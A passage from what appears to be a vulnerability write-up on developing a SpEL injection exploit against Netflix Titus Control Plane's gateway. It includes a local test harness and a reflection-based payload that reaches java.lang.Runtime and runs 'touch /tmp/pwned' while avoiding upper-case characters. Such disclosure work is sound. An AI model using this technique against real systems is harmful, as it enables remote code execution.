 At this point we need a local lab. We already have Titus Control Plane deployed and running, so we can use `docker cp` to copy the `lib` directory of the `gateway` container to our host. Now we have an environment to quickly evaluate our SPEL expressions and see what works and what doesn't, and additionally we will be getting detailed errors, so our life got considerably easier.

My test class (which I shamelessly copy-pasted from [this presentation](https://2018.zeronights.ru/wp-content/uploads/materials/10%20ZN2018%20WV%20-%20Spel%20injection%20.pdf) and minimally adjusted) looked something like:

~~~java
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.Expression;
import org.springframework.expression.EvaluationContext;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class SpELTest {
    public static void main(String[] args) {
        String myExpression = args[0];
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(myExpression);
        EvaluationContext context = new StandardEvaluationContext();
        System.out.println(expression.getValue(context));
    }
}
~~~

A quick `java -version` in the container (or looking at the appropriate [Dockerfile](https://github.com/Netflix/titus-control-plane/blob/8a8bd4c1b4b63e17520804c6f7f6278252bf5a5b/titus-ext/runner/Dockerfile.gateway#L1)) reveals that we need to test against Java 8, so `update-alternatives` here we go.

Now all is set, we can just compile the file and run a dirty script to find our desired `toUpperCase`:

~~~bash
javac -cp "lib/*" SpELTest.java

for i in $(seq 1 80); do java -cp lib/*:. SpELTest "\"\".class.methods[$i].name"|grep toUpperCase && echo -ne "$i \n"; done
~~~

That returns indexes 59 and 60. Looking at the Javadoc (and confirming it by printing the full method signature with `"\"\".class.methods[$i]"`), we see that the index we want is 59: `public String toUpperCase()`. Ok, that means we can finally build our string with `toUpperCase` and `concat` (thank God the later is all lowercase):

~~~java
"#{\"java.lang.\".concat(\"\".class.methods[59].invoke(\"r\")).concat(\"untime\")}"
~~~

which produces a beautiful `java.lang.Runtime` without writing a single upper-case character. Great! Time to put all pieces together (line-breaks added for readability):

~~~java
"#{"
"   \"\".class.class.methods[0].invoke(" // equivalent to Class.getMethod("forName").invoke
"   null," // first argument of invoke, i.e. the object forName is called on (it works on any object because it's a static method)
"       \"java.lang.\"" // second argument of invoke, we start building our class name
"       .concat(\"\".class.methods[59].invoke(\"r\"))" // equivalent to String.getMethod("toUpperCase").invoke("r")
"       .concat(\"untime\")"
"    )" // here we have our static reference to java.lang.Runtime
"    .runtime" // equivalent to getRuntime()
"    .exec(\"touch /tmp/pwned\")" // finally! our payload
"}"
~~~
